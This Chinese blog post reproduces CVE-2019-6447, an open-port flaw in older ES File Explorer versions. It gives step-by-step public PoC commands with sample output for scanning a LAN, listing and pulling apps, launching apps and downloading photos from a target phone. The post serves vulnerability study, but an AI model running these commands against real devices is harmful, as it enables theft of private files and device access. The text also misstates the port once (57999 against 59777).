


# 【漏洞复现】ES File Explorer Open Port Vulnerability - CVE-2019-6447 - admin-神风 - 博客园

> 原文：[`www.cnblogs.com/wh4am1/p/10306690.html`](https://www.cnblogs.com/wh4am1/p/10306690.html)

### 漏洞描述

在受影响的 ES 文件浏览器上，会启用 59777/tcp 端口作为 HTTP 服务器，攻击者只需要构造恶意的 json 请求就可以对受害者进行文件下载，应用打开。更可以用过漏洞进行中间人(MITM)攻击。

### 受影响版本

4.1.9.7.4 及以下

### POC 地址

[`github.com/fs0c131y/ESFileExplorerOpenPortVuln`](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln "https://github.com/fs0c131y/ESFileExplorerOpenPortVuln")

### POC 使用方法

POC 在使用之前需要安装以下三个模块

```
requests
pylint
autopep8
```

可以利用 pip3 来安装它们

```
$ python poc.py -g /sdcard/Android/media/com.google.android.talk/Ringtones/hangouts_incoming_call.ogg

$ python poc.py --cmd appPull --pkg com.tencent.mm

$ python poc.py --cmd getAppThumbnail --pkg com.tencent.mm

$ python poc.py --cmd appLaunch --pkg com.tencent.mm
{"result":"0"}

$ python poc.py --cmd getDeviceInfo
{"name":"Nexus 6P", "ftpRoot":"/sdcard", "ftpPort":"3721"}

$ python poc.py --cmd listAppsAll
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"},
{"packageName":"com.android.cts.priv.ctsshim", "label":"com.android.cts.priv.ctsshim", "version":"8.1.0-4396705", "versionCode":"27", "location":"/system/priv-app/CtsShimPrivPrebuilt/CtsShimPrivPrebuilt.apk", "size":"22744", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listAppsPhone
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listAppsSystem
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listApps
{"packageName":"com.google.android.youtube", "label":"YouTube", "version":"13.50.52", "versionCode":"1350523400", "location":"/data/app/com.google.android.youtube-hg9X1FaylPbUXO1SaiFtkg==/base.apk", "size":"36860368", "status":"com.google.android.apps.youtube.app.application.backup.YouTubeBackupAgent", "mTime":"1545337705957"}

$ python poc.py --cmd listAppsSdcard

$ python poc.py --cmd listAudios
{"name":"hangouts_incoming_call.ogg", "time":"10/17/18 11:33:16 PM", "location":"/storage/emulated/0/Android/media/com.google.android.talk/Ringtones/hangouts_incoming_call.ogg", "duration":5000, "size":"74.63 KB (76,425 Bytes)", }

$ python poc.py --cmd listPics
{"name":"mmexport1546422097497.jpg", "time":"1/2/19 10:41:37 AM", "location":"/storage/emulated/0/tencent/MicroMsg/WeChat/mmexport1546422097497.jpg", "size":"38.80 KB (39,734 Bytes)", }

$ python poc.py --cmd listVideos

$ python poc.py --cmd listFiles

$ python poc.py --cmd listFiles --network 192.168.1.

$ python poc.py list

######################
# Available Commands #
######################

listFiles: List all the files
listPics: List all the pictures
listVideos: List all the videos
listAudios: List all the audio files
listApps: List all the apps installed
listAppsSystem: List all the system apps
listAppsPhone: List all the phone apps
listAppsSdcard: List all the apk files in the sdcard
listAppsAll: List all the apps installed (system apps included)
getDeviceInfo: Get device info appPull: Pull an app from the device. Package name parameter is needed
appLaunch: Launch an app. Package name parameter is needed
getAppThumbnail: Get the icon of an app. Package name parameter is needed
```

### 漏洞利用过程

首先在 Android 上安装受影响的版本 ES 文件浏览器


使用 nmap 查看是否开启 57999 端口

```
sudo nmap -sS -p 59777 -v 192.168.0.100
```



目标开启后，就可以利用 POC 验证是否存在漏洞

```
python3 poc.py --cmd getDeviceInfo --network 192.168.0.
```

通过执行 getDeiceInfo 来查看系统的信息


PACT00 就是你的手机型号了

再来利用 listPics 来列出手机里图片的路径


有很多，随便从中选一个，利用-g 来下载它

-g 后面的路径参数一定要跟刚才获取到的信息来判断


然后输入以下路径

```
python3 poc.py -g /sdcard/Tencent/QQ_Images/-1915ed44cc2d41ae.jpg
```

 这张图片是



下载后就会保存在当前目录

